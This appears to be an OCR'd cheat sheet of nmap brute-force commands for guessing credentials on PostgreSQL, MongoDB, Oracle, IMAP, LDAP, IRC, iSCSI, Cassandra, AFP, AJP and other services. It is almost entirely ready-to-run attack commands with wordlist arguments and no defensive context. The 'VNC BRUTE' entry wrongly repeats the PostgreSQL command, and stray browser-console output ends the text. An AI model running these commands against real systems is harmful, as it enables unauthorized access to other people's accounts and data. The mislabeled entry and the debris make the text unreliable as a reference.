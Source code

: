 # PostGreSQL BRUTE
nmap -sV --script pgsql-brute --script-args userdb=user.txt,passdb=pass.lst -p 5432 10.0.0.1

# MONGO BRUTE
nmap -sV --script mongodb-brute -n -p 27017 10.0.0.1

# ORACLE SQL
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=&lt;SID&gt; &lt;IP&gt;
# Offline Oracle SQL Hash Brute Force
nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=DB11g -n 10.0.0.1

# IMAP BRUTE
nmap -sV --script imap-brute -p 143 10.0.0.1

# VNC BRUTE
nmap -sV --script pgsql-brute --script-args userdb=user.txt,passdb=pass.lst -p 5432 10.0.0.1

# LDAP BRUTE
nmap --script ldap-brute -p 389 10.0.0.1

# IRC BRUTE
nmap -sV --script irc-brute,irc-sasl-brute --script-args userdb=users.txt,passdb=/pass.lst -p &lt;PORT&gt; 10.0.0.1

# iSCSI BRUTE
nmap -sV --script iscsi-brute --script-args userdb=usernames.txt,passdb=pass.lst -p 3260 10.0.0.1

# CASSANDRA BRUTE
nmap --script cassandra-brute -p 9160 10.0.0.1

# AFP BRUTE
nmap -p 548 --script afp-brute 10.0.0.1

# AJP BRUTE
nmap --script ajp-brute -p 8009 10.0.0.1

debugger eval code:1:62
undefined
